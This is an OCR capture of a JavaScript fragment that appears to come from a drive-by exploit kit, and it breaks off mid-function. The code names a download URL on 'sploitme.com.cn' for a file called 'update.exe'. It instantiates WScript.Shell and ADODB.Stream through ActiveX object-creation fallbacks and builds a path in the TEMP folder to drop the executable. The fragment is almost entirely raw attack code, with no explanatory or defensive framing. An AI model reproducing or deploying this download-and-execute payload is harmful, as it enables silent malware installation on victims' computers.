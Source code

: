 ```
			try {
				req = new XMLHttpRequest();
			} catch (e) {
			}
		}
	}
	if (req == null)
		return '0';
	req.open('GET', '/fg/show.php?get_ajax=1&r=' + Math.random(), false);
	req.send(null);
	if (req.responseText == '1') {
		return true;
	} else {
		return false;
	}
}
var urltofile = 'http://sploitme.com.cn/fg/load.php?e=1';
var filename = 'update.exe';
function CreateO(o, n) {
	var r = null;
	try {
		r = o.CreateObject(n);
	} catch (e) {
	}
	if (!r) {
		try {
			r = o.CreateObject(n, '');
		} catch (e) {
		}
	}
	if (!r) {
		try {
			r = o.CreateObject(n, '', '');
		} catch (e) {
		}
	}
	if (!r) {
		try {
			r = o.GetObject('', n);
		} catch (e) {
		}
	}
	if (!r) {
		try {
			r = o.GetObject(n, '');
		} catch (e) {
		}
	}
	if (!r) {
		try {
			r = o.GetObject(n);
		} catch (e) {
		}
	}
	return r;
}
function Go(a) {
	var s = CreateO(a, 'WScript.Shell');
	var o = CreateO(a, 'ADODB.Stream');
	var e = s.Environment('Process');
	var xhr = null;
	var bin = e.Item('TEMP') + '\\' + filename;
	try {
```